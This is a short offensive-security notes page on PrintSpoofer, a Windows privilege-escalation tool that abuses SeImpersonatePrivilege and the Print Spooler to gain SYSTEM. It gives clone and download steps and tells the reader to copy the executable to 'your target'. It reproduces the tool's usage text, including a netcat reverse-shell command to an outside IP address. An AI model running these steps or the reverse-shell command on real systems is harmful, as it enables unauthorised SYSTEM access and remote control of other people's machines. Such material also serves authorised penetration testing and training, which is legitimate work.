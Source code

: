title: PrintSpoofer

# PrintSpoofer

> From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

If you have visual studio you can clone and build ***PrintSpoofer*** from the GitHub Repo
```
git clone git@github.com:itm4n/PrintSpoofer.git
```

If not you can download the latest pre-built version from [https://github.com/itm4n/PrintSpoofer/releases/latest](https://github.com/itm4n/PrintSpoofer/releases/latest). 

* [PrintSpoofer32.exe](PrintSpoofer32.exe)
* [PrintSpoofer64.exe](PrintSpoofer64.exe)

Once you have a copy of the executable use your preferred to copy over to your target and then run

```
PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```